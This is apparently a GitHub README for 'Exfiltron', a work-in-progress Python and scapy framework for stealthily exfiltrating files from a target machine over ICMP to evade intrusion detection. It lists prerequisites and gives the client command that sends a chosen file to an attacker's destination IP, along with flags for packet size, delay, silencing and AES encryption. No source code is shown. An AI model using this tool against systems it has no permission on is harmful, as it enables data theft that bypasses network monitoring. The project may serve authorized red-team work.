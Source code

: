 # Exfiltron
Data Exfiltration Framework 

!!!! Please be aware that is project is in progress and may have parts missing
!!!!

## What does it do?
This framework is meant as a proof of concept for exfiltrating data 
from a target computer. YOU SHOULD NOT USE THIS ON ANYTHING YOU DO 
NOT OWN OR HAVE EXPLICIT PERMISSION TO USE IT ON. Exfiltron is meant to 
evade IDS in order to get data back to you.

## Things you must have before extraction time
* You must have [python2.7+](https://www.python.org) installed on both the
server and the client side
* You must have [scapy](scapy.net) installed on both the server and the client side
** If you wish to encrypt your file before sending it out, make sure you have
the [cryptography](https://cryptography.io/en/latest) python package which
should be installed when you install scapy

## Sounds great! How do I try it out?
First, get it on your local machine. There are two major files: the client
file (exfiltron.py) and the server file. The client file must be placed on
a target machine along with any modules you wish to use for your extraction
method. SET UP THE SERVER SIDE INFORMATION HERE. After exfiltron.py has
been placed on the target machine, run the following command on the target:

`python exfiltron.py exfiltrationMethod -f filename -d destinationIP [-aehiqt]`

* -h is help
* -a (--data-per-packet) is the amount of data you want to fit into each packet.
The default is the number of bytes that normally sit in that packet while the
min amount is 1 byte and the max amount is the MTU minus the headers and trailers
on the packet. The amount should be specified after the option (ex. -a 64)
* -t (--time) specifies the amount of time to wait between after sending a packet
before sending another packet. This numerical value should be given in terms of
seconds. If no value is explicitly set, exfiltron defaults the value to 5 seconds
* -q (--quiet) By default, a progress bar is shown displaying
numPacketsSent/numTotalPacketsToSend. This option silences any output relating
to the progress bar
* -e (--encrypt) Setting this flag will result in your data being encrypted 
with AES-256 using CTR mode. Please note that this should only be used if the
attacker executes exfiltron.py through a secure channel
* -i (--integrity-check) Using a hashing algorithm that is picked by the user,
Exfiltron hashes the chosen file and sends, as the first packet, the resulting
hash. After receiving all of the files, the attacker's side then pieces the
files back together and runs the same hash again and compares the two (NOT YET
IMPLEMENTED)

## Methods of Exfiltration
Currently, the following methods of exfiltration are available/in progress:
* ICMP

#### Original Authors
* Adam Sowden
* Andrew Steiner
* Thomas Daniels
